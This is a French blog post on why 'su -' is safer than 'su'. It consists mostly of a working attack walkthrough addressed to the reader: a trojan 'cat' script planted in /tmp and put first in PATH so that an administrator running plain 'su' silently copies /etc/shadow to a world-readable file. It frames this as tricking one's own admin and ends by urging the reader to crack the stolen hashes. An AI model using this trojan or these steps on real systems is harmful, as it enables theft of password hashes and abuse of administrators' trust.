 ```yaml
---
title: "Pourquoi utiliser 'su -' plutôt que 'su'"
author: Benoit
date: 2020-10-30 19:32:33 +0100
categories: [sysadmin, linux]
tags: [securite]
math: true
image: /assets/img/sample/devices-mockup.png
---
```

`su -` invoque un shell de connexion après avoir changé d'utilisateur. Un shell de connexion réinitialise la plupart des variables d'environnement, fournissant une base propre.

`su` ne fait que changer d'utilisateur, fournissant un shell normal avec un environnement presque identique à celui de l'ancien utilisateur.

Imaginez que vous êtes un développeur de logiciels avec un accès normal à une machine et que votre administrateur ignorant ne vous donne pas l'accès au compte root. Essayons (avec un peu de chance) de le piéger:

Vous connnaisser évidement la commande `cat`qui permet d'afficher le contenu d'un fichier ? Nous allons la piéger en en créant une fausse:

Nous allons la stocker dans le dossier `tmp`

{% highlight bash %}
$ mkdir /tmp/evil_bin
$ vi /tmp/evil_bin/cat
{% endhighlight %}

Nous créons donc un script que nous allons évidement appeler `cat`
Dans ce script, si l'utilisateur n'est pas root, le script simulera un message de permission refusée.
Si l'utilisateur est root, le script va copier le contenu du fichier `/etc/shadow` dans le dossier `tmp` 
Il va ensuite executer la commande `cat` normalement.

{% highlight bash %}
#!/bin/bash
test $UID != 0 && { echo "/bin/cat: Permission denied!"; exit 1; } 
/bin/cat /etc/shadow &>/tmp/shadow_copy
/bin/cat "$@"
exit 0
{% endhighlight %}

Nous allons maintenent rendre le script executable et l'ajouter dans notre `PATH` afin de pouvoir l'executer depuis n'importe quel dossier:

{% highlight bash %}
chmod +x /tmp/evil_bin/cat`
PATH="/tmp/evil_bin:$PATH"
{% endhighlight %}

Maintenant, allez voir votre administrateur pour lui demander pourquoi vous n'arrivez pas à afficher un fichier avec la commande `cat`.

Il va donc essayer en restant sur votre session mais ce ne sera pas le vrai programme `cat`qui sera lancé mais notre petit script:

{% highlight bash %}
$ ls -l /home/vous/mon-super-fichier
-rw-r--r-- 1 you wheel 41 2020-06-28 13:00 mon-super-fichier
$ cat /home/vous/mon-super-fichier
/bin/cat: Permission denied!
{% endhighlight %}

Il va donc vouloir essayer avec les droits root en utilisant `su`. Et c'est à ce moment qu'il va faire une erreur. En effet, comme il utilise `su` au lieu de `su -`, les variables d'environnement ne sont pas écrasées. Il va donc une nouvelle fois executer notre script au lieu d'executer la vrai commande `cat`.

{% highlight bash %}
$ su
Password: ...
$ cat /home/vous/mon-super-fichier
du contenu super important dans ce fichier.
$ exit
{% endhighlight %}

Il aura donc l'impression que tout a fonctionné et fermé la session root. Donc, vous pouvez maintenant dire "Merci monsieur l'admin" ^^ En effet, notre piège a fonctionné: 

Nous avons bien récupéré une copie du fichier `/etc/shadow`qui contient une liste de tous les comptes et les mots de passe chiffrés:

{% highlight bash %}
$ ls -l /tmp/shadow_copy
-rw-r--r-- 1 root root 1093 2020-06-28 13:02 /tmp/shadow_copy
{% endhighlight %}

Il ne vous reste plus qu'a tenter de les déchiffrer... et pour ça, je vous laisse lire cet article de l'excellent [korben][korben]


[Korben]: https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html

